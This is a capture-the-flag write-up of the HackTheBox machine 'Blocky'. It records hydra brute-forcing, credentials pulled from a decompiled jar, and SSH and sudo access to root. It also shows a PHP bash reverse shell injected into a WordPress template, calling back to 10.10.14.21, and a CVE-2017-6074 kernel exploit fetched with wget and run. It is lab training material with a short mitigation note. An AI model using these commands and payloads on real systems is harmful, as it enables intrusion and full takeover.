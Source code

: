 # Blocky

```
kali@kali:~/htb/Blocky$ sudo nmap -Pn  10.129.1.53
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 08:03 EST
Nmap scan report for 10.129.1.53
Host is up (0.028s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos
```

I head to the webpage and I’m greeted by blockycraft! And there is a login page. Which differentiates username and password. So I’m gonna try hydra,


```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F:ERROR\: Invalid username. Lost your password?" -L /usr/share/wordlists/usernames.txt -p test -I
```

Hydra can be a bit tough to send correctly, I hope this one is good.

While that is running I check out the other options on the site. I click the first article and see a reply field. This might be a cross-site-scripting opportunity.

So let's try a simple XSS to see if it even works:

<script>alert(‘XSS’)</script>. This should create a popup message if it works. But it does not. The comment is simply posted with the <script>’s removed. I tried it on all fields as well, but to no avail. My hydra command has also slowed down a lot. Hmm. 

I decide to run dirbuster. But I don’t really find anything special.

I then remember that there are blog posts, and they probably include usernames… duh.

So we get a username “Notch”

I try hydra again: 

```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR" -l Notch -P /usr/share/wordlists/rockyou.txt -I -V
```
Also my dirbuster is not working well, it is just running into empty links. So I’m gonna try Wfuzz.

``` 
kali@kali:~/htb/Blocky$ sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.1.53/FUZZ
```

-c outputs with colors

--hc=404 filters out 404 response pages

-w selects what wordlist to use


And Wfuzz finds a directory called plugins. So let's see if we find anything there. Not that my hydra is still running in the BG trying to find a password.

![](images/1.png)

We got something interesting here. Some java files, which is what is used for minecraft mods. Let’s see if we can find some interesting stuff. 

I decompress it with
```kali@kali:~/htb/Blocky$ unzip BlockyCore.jar -d Blockycore
Archive:  BlockyCore.jar
  inflating: Blockycore/META-INF/MANIFEST.MF  
  inflating: Blockycore/com/myfirstplugin/BlockyCore.class  
```
-d specifies a directory to unzip files

So now we can try to decompile it:

```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ javap -c  BlockyCore.class
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Compiled from "BlockyCore.java"
public class com.myfirstplugin.BlockyCore {
  public java.lang.String sqlHost;

  public java.lang.String sqlUser;

  public java.lang.String sqlPass;

  public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
      22: return

  public void onServerStart();
    Code:
       0: return

  public void onServerStop();
    Code:
       0: return

  public void onPlayerJoin();
    Code:
       0: aload_0
       1: ldc           #33                 // String TODO get username
       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
       8: return

  public void sendMessage(java.lang.String, java.lang.String);
    Code:
       0: return
}

```

That third string is interesting. `https://www.reddit.com/r/LiveStreamNorge/comments/hyj6d7/ryker_i_bakken_there/`

I try it with Notch in the login page, but it does not work. However ssh was open in the ports. So lets try that:


```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh Notch@10.129.1.53
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 

kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh notch@10.129.1.53
notch@10.129.1.53's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
/usr/bin/xauth:  file /home/notch/.Xauthority does not exist
notch@Blocky:~$ whoami
notch
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Here we can see the importance of always trying both lower and uppercase. And we can see that notch is already a sudo user. So let's try to log in as root:

```
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 
```

Great!

Although I am sad that hydra did not work.


## Comparing myself to the official writeup:

The official writeup an nmap with -T4 -A  and it revealed that minecraft was also running on port 25565. 

They ran into the same dirbusting issues I found. With php busting not working well on wordpress sites. They switched to directories only. As I did, although I used wfuzz and they kept using dirbuster.

They decompile the java files with JD-GUI. And found the credentials. And logged on with ssh. Used `sudo -i` to get root.

However they also pointed out a PhPAdmin route after finding the credentials in the java files.

So I decide to try that out at the end of this writeup.

## How to stop this exploit:

Very bad idea to keep plaintext credentials. And an even worse idea to keep it publicly available like this. And an even worse idea than that, to reuse that password as the root password of the machine. This is a cool example of an entirely user based mistake. As the user gave away the password. You could say that ssh could be turned off. But the biggest mistake here is clearly the plaintext public password reuse.


# Secondary foothold:

I navigate to 10.129.1.53/phpmyadmin

And log in with root:8YsqfCTnvxAUeduzjNSXe22 As found in the java files.

And go to the wordpress database:

![](images/2.png)

And click edit:

![](images/3.png)

We just set the user_pass to MD5 and enter our password:

![](images/4.png)

I press Go and login with Notch:DontReusePasswords on 10.129.1.53/wp-login. And I’m greeted with the admin panel:

![](images/5.png)

Now I’m mostly looking for somewhere to upload a php file as a reverse shell.

I go to Appearance->Editor in the wp-admin panel and add

```
<?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'");
?>
```

To the top of the header.php template. Set up a listener and enter the page in browser:

```
kali@kali:~$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.53 41360
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Blocky:/var/www/html$ whoami
whoami
www-data
www-data@Blocky:/var/www/html$ 
```

I downloaded and compiled this: https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-6074/poc.c 

Compiled with: `kali@kali:~/htb/Blocky$ gcc -o poc poc.c`

I set up a webserver to download it:

```
kali@kali:~/htb/Blocky$ sudo python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...

```

And download it on the target:

```
www-data@Blocky:/var/www/html$ wget 10.10.14.21:8000/poc
wget 10.10.14.21:8000/poc
--2021-01-25 12:03:46--  http://10.10.14.21:8000/poc
Connecting to 10.10.14.21:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23768 (23K) [application/octet-stream]
Saving to: 'poc'

     0K .......... .......... ...                             100%  797K=0.03s

2021-01-25 12:03:46 (797 KB/s) - 'poc' saved [23768/23768]

www-data@Blocky:/var/www/html$ 
```

I followed this up with chmod 777 to get execute permissions, and ran it:

```
www-data@Blocky:/var/www/html$ chmod 777 poc
chmod 777 poc
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
```

And I did get root, but I think the machine crashed… As nothing responded. And I tried pinging, unreachable… So I tried resetting the box and having another go.

```
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1698): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
whoami
root
```

There we go! Awesome. Two cool ways of doing this box. Some good experience with phpmyadmin and Wordpress, and a new root exploit.

The dccp_rcv_state_process function in net/dccp/input.c mishandles DCCP_PKT_REQUEST packet data structures in the LISTEN state. This allows local users to obtain root privileges by using an application that makes an IPV6_RECVPKTINFO setsockopt system call.

This can be fixed by updating to the latest linux release.
